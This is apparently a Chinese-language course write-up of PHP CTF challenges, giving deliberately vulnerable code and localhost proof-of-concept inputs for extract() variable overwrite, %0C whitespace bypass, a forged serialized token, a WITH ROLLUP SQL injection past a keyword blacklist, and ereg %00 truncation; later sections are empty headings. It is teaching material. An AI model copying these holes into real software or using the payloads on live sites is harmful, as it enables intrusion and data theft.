






# 一、复现所有 PHP 函数特有漏洞。
## 1. `extract` 变量覆盖
### 1.1 `extract` 函数说明
函数从数组中将变量导入到当前的变量表。该函数使用数组键名作为变量名，使用数组键值作为变量值。**如果有冲突，覆盖已有的变量**。
### 1.2 小题
```php
 <?php
 $magedu = 'extract_file.txt';
 extract($_GET);
 if (isset($student)) {
    $content = trim(file_get_contents($magedu));
    if ($student == $content) {
        echo 'falg{xxxxx}';
    } else {
        echo 'ERROR';
    }
 }
```
**代码说明：**首先将 `extract_file.txt` 赋值给 `$magedu` 变量，然后获取 `$student` 变量的值，如果和 `extract_file.txt` 文件中内容一致，则拿到 `flag`。   
**解题思路：**基于`extract()`函数的变量覆盖的特性，GET请求中，将 `$magedu` 变量重新赋值，`$student` 变量不给值，使得下面的判断为 `NULL == NULL`,满足条件后拿到`flag`。   
   
**poc：**   
```url
 http://localhost:3000/19/extract_test.php?magedu=123&student=
```
## 2. 绕过过滤的空⽩字符
### 2.1 空白字符绕过
可以引⼊\f（也就是%0c）在数字前⾯，来绕过最后那个is_palindrome_number函数，⽽对于前⾯的数字判断，因为`intval`会忽略这个字符，所以不会影响。   
   
`trim()`函数不过滤 `%0C`,但是`intval`会忽略，而 `' 191'=='191'` 比较时，两边都会进行数值转换，所以会返回true。
### 2.2 小题
```php
 <?php
    function is_palindrome_number($number) {
        $number = strval($number); //strval — 获取变量的字符串值
        $i = 0;
        $j = strlen($number) - 1; //strlen — 获取字符串⻓度
        while($i < $j) {
            if($number[$i] !== $number[$j]) {
            return false;
        }
            $i++;
            $j--;
        }
        return true;
    }
    # trim() 函数移除字符串两侧的空⽩字符或其他预定义字符
    $a = trim($_GET['number']);
    if(($a==strval(intval($a)))&
    (intval($a)==intval(strrev($a)))&!is_palindrome_number($a)){
        echo 'flag{xxxxx}';
    }
```
**说明：**想要拿到`flag`需要满足：（1）`$a==strval(intval($a))` a 为纯数字；（2）`intval($a)==intval(strrev($a))` a反转后和原来的值相等；（3）`!is_palindrome_number($a)` 不是一个回文数
**解题思路：**可以在参数前面添加一个空格，使得第一个第二个条件中在`intval()`函数处理过程中忽略，而在第三个条件中字符挨个比对时，又会被正常检测，所以可以在变量前加个 `%0C` 空白字符来绕过。   

**poc：**   
```url
 http://localhost:3000/19/palindrome_number_test.php?number=%0C191
```
## 3. 多重加密
### 3.1 多重加密说明
当设计加密时，当我们知道他解密算法后，就可以通过逆向加密的方式，获得自己想要的加密串，例如下面的小题。
### 3.2 小题
```php
 <?php
    $request = array_merge($_GET);
    if(isset($request['token'])){
        $login = unserialize(gzuncompress(base64_decode($request['token'])));
        if($login['user'] === 'test123'){
            echo "flag{xxxxx}";
        }else{
            echo 'unserialize injection!!';
        }
    }
```
**说明：** 题中从请求中获取所有参数，然后获取token后，首先进行base64解密，然后进行解压缩，然后进行反序列化，然后获取字典中的user字段是不是等于`test123`，如果相等，就可以获取到`flag`。   
**解题思路：**可以通过上面的方式反向操作，生成一个自己想要的token。   
```php
 base64_encode(gzcompress(serialize($array)))
```
获取到加密后的密文token（eJxLtDK0qi62MrFSKi1OLVKyLrYyt1IqSS0uMTQyVrKuBQCV7AlL），然后通过请求发送过来，验证是否可以得到`flag`。   
   
**POC：**
```url
 http://localhost:3000/19/login_test.php?token=eJxLtDK0qi62MrFSKi1OLVKyLrYyt1IqSS0uMTQyVrKuBQCV7AlL
```
## 4. SQL注⼊_WITH ROLLUP绕过
### 4.1 `WITH ROLLUP` 简介
在group分组字段的基础上再进行统计数据。   
   
### 4.2 小题
```php
 function AttackFilter($StrKey,$StrValue,$ArrReq){
    if (is_array($StrValue)){
    //检测变量是否是数组
    $StrValue=implode($StrValue);
    //返回由数组元素组合成的字符串
    }
    if (preg_match("/".$ArrReq."/is",$StrValue)==1){
    //匹配成功⼀次后就会停⽌匹配
    print "magedu_error！";
    exit();
    }
 }
 $filter = "and|select|from|where|union|join|sleep|benchmark|,|\(|\)";
 foreach($_POST as $key=>$value){
    //遍历数组
    AttackFilter($key,$value,$filter);
 }
 $db="XXXXXX";
 mysql_select_db($db, $con);
 //设置活动的 MySQL 数据库
 $sql="SELECT * FROM interest WHERE uname = '{$_POST['uname']}'";
 $query = mysql_query($sql);
 if (mysql_num_rows($query) == 1) {
    //返回结果集中⾏的数⽬
    $key = mysql_fetch_array($query);
    //返回根据从结果集取得的⾏⽣成的数组，如果没有更多⾏则返回 false
    if($key['pwd'] == $_POST['pwd']) {
        echo "flag{xxxxx}";
    }else{
        echo "error";
    }
 }
```
**说明：**首先上面过滤了sql的一些关键字，其次他判断返回结果必须只有一条，最后判断`pwd`传进来的和数据库中的是否一致，所以要拿到 `flag` 要满足这三个条件。
**解题思路：**上面代码中使用的是黑名单过滤的方式，我们可以使用名单外的`WITH ROLLUP`，然后通过`limit`来控制返回的条数。使得我们传入的等于查出来的。
```sql
 select user,password from users where user = 'admin' group by password with rollup limit 1,1;
```   
   
**poc：**
```text
 uname = admin' group by pwd with rollup limit 1,1 #
```
## 5.ereg正则%00截断
### 5.1 简介
ereg函数 读到`%00`的时候，就截止了。
### 5.2 小题
```php
 <?php
    $flag = "flag{xxxxx}";
    if (isset ($_GET['password']))
    {
        if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE)
        {
            echo '<p>You password must be alphanumeric</p>';
        }
        else if (strlen($_GET['password']) < 8 && $_GET['password'] > 9999999)
        {
            if (strpos ($_GET['password'], '*-*') !== FALSE) //strpos — 查找字符串⾸次出现的位置
            {
                die('Flag: ' . $flag);
            }
            else
            {
                echo('<p>*-* have not been found</p>');
            }
        }
        else
        {
            echo '<p>Invalid password</p>';
        }
    }
 ?>
```
**说明：**本题中首先`password`需要满足字母和数字，其次他的长度必须小于8，但是他的值必须大于7个9，最后还必须包含`*_*`;   
**解题思路：**首先要求长度小于8位但是又大于9999999,可以使用科学计数法`1e7`,然后password中还需要存在`*_*`,那么就需要绕过`ereg`函数，可以通过`%00`阶段对`*_*`的校验。
**POC：**
```url
 ?password=1e7%00*-*
```
## 6. sha()函数⽐较绕过
## 7. SESSION验证绕过
## 8. 密码md5⽐较绕过
## 9. urldecode⼆次编码绕过
## 10. intval函数四舍五⼊
# 二、复现 jsonp 劫持漏洞。
# 三、复现课件中 Java 多态代码。